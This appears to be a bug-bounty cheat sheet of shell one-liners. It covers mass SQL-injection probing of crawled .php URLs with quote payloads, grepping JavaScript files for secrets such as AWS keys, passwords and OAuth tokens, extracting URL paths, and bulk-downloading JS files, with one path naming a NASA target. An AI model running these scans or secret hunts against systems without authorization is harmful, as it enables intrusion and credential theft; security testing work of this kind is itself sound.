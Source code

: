 # SQL Injection:

cat sql | grep ".php" | sed 's/.php.*/.php/' | sort -u | sed 's|$|%27%22%60|' | while read url ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mVulnerable\e[0m" || echo -e "$url \e[1;31mNot Vulnerable\e[0m" ; done

 
 cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | httpx -silent -ms "You have an error in your SQL syntax"

## Sensitive information disclosure throgh JS files:

cat *js | grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret" /path/to/directory/*.js


## Extract urls from JS files:

cat *.js | grep -aoP "(?<=('|\`|\"))(/[a-zA-Z0-9_?&=/\-#.]*?)(?=('|\`|\"))" | sort -u


## Download js files from whole js.txt files:

#!/bin/bash

while IFS= read -r url; do
    echo "Downloading: $url"
    wget "$url" -P  /home/vijay/Desktop/Bug_Bounty/nasa/JS
done < alivejs.txt





